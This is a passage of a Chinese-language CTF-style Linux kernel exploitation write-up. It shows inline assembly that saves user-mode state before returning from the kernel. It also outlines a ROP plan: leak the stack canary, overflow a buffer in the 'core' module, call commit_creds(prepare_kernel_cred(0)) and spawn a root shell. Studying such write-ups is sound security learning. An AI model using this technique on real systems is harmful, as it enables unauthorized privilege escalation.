 #### address of commit_creds()&gadgets

定位commit_creds，让它在ropchain压轴登场；

在/tmp/kallsyms中保存了commit_creds()的地址，可以直接拿来用，另外gadgets也在里面；

#### return to user

返回用户态需要设置栈帧，利用指令`swapgs; iretq`即可；

栈帧布置如下（学点内联汇编没那么难）：

```c
// intel flavor assembly
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

// at&t flavor assembly
void save_stats() {
asm(
    "movq %%cs, %0\n"
    "movq %%ss, %1\n"
    "movq %%rsp, %3\n"
    "pushfq\n"
    "popq %2\n"
    :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
    :
    : "memory"
);
}
```



## 漏洞利用

### rop

经过如上的分析，可以得出以下的思路：

1. 通过 ioctl 设置 off，然后通过 core_read() leak 出 canary；
2. 通过 core_write() 写 如ropchain到name ；
3. 通过 core_copy_func() 设置合理的长度和 canary ，将ropchain打入v2变量缓冲区，溢出后进行 rop；
4. 通过 rop 执行 `commit_creds(prepare_kernel_cred(0))`
5. 返回用户态，通过 system("/bin/sh") 等拿shell；


[vmlinux & bzImage 的关系]: https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml	"vmlinux &amp; bzImage 的关系"
[ extract-vmlinux ]: https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux "extract-vmlinux"